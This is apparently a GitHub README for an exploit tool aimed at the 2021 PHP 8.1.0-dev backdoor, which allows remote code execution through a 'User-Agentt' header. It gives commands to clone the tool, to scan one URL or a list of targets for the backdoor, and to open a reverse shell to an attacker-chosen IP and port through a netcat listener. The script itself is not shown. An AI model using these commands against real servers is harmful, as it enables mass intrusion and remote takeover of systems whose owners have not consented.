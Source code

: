 # PHP 8.1.0-dev backdoor

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

## How to install

You can install the exploit with git clone:

```
git clone https://github.com/0xGabe/php-8.1.0-backdoor
```

## How to use

### Check the vuln

The php-exploit at moment has two options, a single URL and a target list, see the commands below for both:

- Single URL

```
python3 php-exploit.py --url https://site.com
```

- Target List

```
python3 php-exploit.py --list target.txt
```

### Get a Reverse Shell

To get a reverse shell you need open another terminal with NC.

```
python3 php-exploit.py --url https://site.com --lhost YOUR-IP --lport YOUR-PORT
```

![](image-poc.png)
